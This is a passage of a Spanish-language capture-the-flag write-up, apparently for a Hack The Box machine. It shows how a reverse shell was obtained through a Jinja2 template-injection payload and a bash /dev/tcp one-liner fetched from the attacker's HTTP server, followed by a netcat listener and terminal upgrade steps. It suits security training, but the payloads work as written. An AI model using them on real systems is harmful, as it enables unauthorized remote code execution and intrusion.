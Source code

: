Vamos a enviarnos una reverse shell

```bash
❯ catn index.html
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```

Vamos a hacer un **curl** para ver si de primeras recibimos una peticion, en vez de **id** ejecutaremos **curl 10.10.14.22** y recibimos la peticion

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.134 - - [03/Jan/2024 14:35:50] "GET / HTTP/1.1" 200 -
```

Tambien esta la opcion de enviarnos una reverse shell desde el campo donde pusimos **id**

```bash
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >%26 /dev/tcp/ip/puerto 0>%261"').read() }}
```

![](https://i.imgur.com/Ez7pqMZ.png)

Ahora simplemente indicamos que queremos ejecutarlo con **Bash** 

![](https://i.imgur.com/SSrOJ7I.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.134] 33444
bash: cannot set terminal process group (962): Inappropriate ioctl for device
bash: no job control in this shell
tom@epsilon:/var/www/app$ 
```

```bash
tom@epsilon:/var/www/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
tom@epsilon:/var/www/app$ ^Z
zsh: suspended  nc -nlvp 443
                                                                                                                                
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
tom@epsilon:/var/www/app$ export TERM=xterm
```

## User.txt

